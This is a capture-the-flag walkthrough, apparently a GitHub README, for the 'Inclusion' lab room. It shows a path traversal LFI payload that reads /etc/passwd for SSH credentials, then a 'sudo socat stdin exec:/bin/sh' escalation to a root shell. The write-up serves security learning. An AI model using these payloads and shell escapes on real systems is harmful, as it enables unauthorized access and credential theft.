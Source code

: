 # Inclusion #

This room talks about LFI vulnerability in which an attacker tricks the web server to expose critical data this happens when a web server trusts user input which can lead to path transversal.

## Nmap Scan ##
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
There are only two ports open in the web server running on the port 80 and ssh on the port 22.

## Enumeration ##
- Enter `http://<Machine_IP>/` in your browser.
- Open any article from the website.
- Enter `<http://Machine_IP>/article?name=/<LFI_Payload>/`.
  ### URL with Payload ###
  `<http://Machine_IP>/article?name=/../../../../etc/passwd/`.
- In /etc/passwd you can find a user and password.
> username - falconfeast

> password - xxxxxxxxxxxx
- Login using the credentials via ssh.

## Exploitation ##
- Once you access the machine you can find user.txt with user flag in it.
- Use the command `sudo -l` to know the priveleges of the current user.
- user falconfeast has sudo permission to socat.
- Run the command `sudo socat stdin exec:/bin/sh`.
- Running the command should give you elevated shell 
- Test it by running `whoami` should print as root.
- Now print the root flag by `cat /root/root.txt`.


